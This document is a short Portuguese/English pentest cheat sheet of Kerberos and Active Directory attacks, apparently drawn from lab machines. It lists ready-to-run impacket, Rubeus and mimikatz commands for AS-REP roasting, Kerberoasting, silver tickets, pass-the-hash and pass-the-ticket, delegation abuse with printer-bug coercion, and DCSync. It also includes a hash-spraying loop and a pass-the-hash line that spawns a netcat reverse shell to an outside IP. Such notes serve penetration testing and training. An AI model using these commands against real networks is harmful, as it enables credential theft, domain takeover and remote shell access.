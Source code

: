 Kerberos
========================

- [ ] [**Enumeração de usuário**](#user%20enumeration)
- [ ] [**AS-REP Roasting**](#as-rep%20roasting)
- [ ] [**Kerberoasting**](#kerberoasting)
- [ ] [**Silver Ticket**](#silver%20ticket)
- [ ] [**Over pass the hash**](#over%20pass%20the%20hash)
- [ ] [**Pass the ticket**](#pass%20the%20ticket)
- [ ] [**Unconstrained delegation**](#unconstrained%20delegation)
- [ ] [**Constrained delegation**](#constrained%20delegation)
- [ ] [**Conversões**](#conversoes)

## User enumeration

```
kerbrute userenum -d domain --dc <hostname> users.txt
```

## AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```
## Silver Ticket

```
rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
```

## Over pass the hash

```
impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
```
    
```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## Pass the ticket

```
#!/bin/bash
#
for i in $(cat usernames.txt) 
do 
        for j in $(cat nthashes.txt) 
        do 
                echo trying $i:$j 
                echo 
                impacket-getTGT htb.local/$i -hashes $j:$j    
                echo 
                sleep 5 
        done 
done
```

### Rubeus and Mimikatz
```
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:Powershell.exe

sekurlsa::pth /domain:flight.htb /user:R.Cold /ntlm:5607f6eafc91b3506c622f70e7a77ce0 /run:".\n.exe -e cmd 10.10.14.14 8091"
```

m.exe = mimikatz.exe
r.exe = Rubeus.exe

### mimikatz
```
m.exe
privilege::debug
kerberos::ptt <ticket.kirbi>
```

### rubeus

```
r.exe ptt /ticket:0-40e10000-G0$@krbtgt~FLIGHT.HTB-FLIGHT.HTB.kirbi
```

![qownnotes-media-zBGsNi](../../../media/qownnotes-media-zBGsNi.png)

Usando base64 com Rubeus

```
r.exe ptt /ticket:<base64>
```

![](../../../media/Pasted%20image%2020240612162524.png)


## Unconstrained delegation

Pré requisito:
Obter system em uma máquina com a configuração do unconstrained delegation:

Do Kali:

Verificar se a máquina possui a config de unconstrained delegation:

```
impacket-findDelegation -dc-ip <ip_dc> <dominio>/<usuario>:<senha>
```

Para uma máquina que está no domínio, podemos conduzir o ataque de seguinte maneira:

```
Get-DomainComputer -Unconstrained
```

Forçar a autenticação via Kerberos do DC na máquina alvo/comprometida, mas primeiro precisamos verificar se o serviço spool está funcionando:

```
dir \\<dc_hostname>\pipe\spoolss
```

Se estiver:
```
SpoolSample.exe <dc_hostname> <maquina_com_unconstrained_delegation_hostname>
```

Aguardar o TGT do DC chegar:
```
r.exe monitor /monitorinterval:10 /targetuser:DC$ /nowrap
```

ou algum domain admin logar na máquina:

```
r.exe monitor /monitorinterval:10
```

Depois fazer o pass the ticket para fazer o dcsync:

```
mimikatz.exe
debug::privileges
sekurlsa::tickets /export
kerberos::ptt <nome_do_arquivo>.kirbi
lsadump::dcsync /domain:<DomainFQDN> /all
```

## Constrained delegation

Enumerando máquinas com a configuração de "constrained delegation":

Kali:

```
impacket-findDelegation -dc-host <ip_dc> <dominio>/<usuario>:<senha>
```

Powershell
```
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
```

Powerview
```
Get-DomainUser -TrustedToAuth
```

```
r.exe asktgt /domain:<nome_dominio> /spn:<nome_spn>
```
## Conversoes

Base64 para .kirbi

```
[IO.File]::WriteAllBytes("C:\Users\pentestlab.PURPLE\Desktop\DC.kirbi",[Convert]::FromBase64String("Base64"))
```

Base64 para .kirbi
```
cat arq_com_base64_sem_espacos.txt
...
base64 -d <arq_com_base64_sem_espacos.txt> <output .kirbi> 
```


.kirbi para ccache

```
impacket-ticketConverter test.kirbi test2.ccache
```

ccache para .kirbi

```
impacket-ticketConverter adm.ccache test.kirbi
```

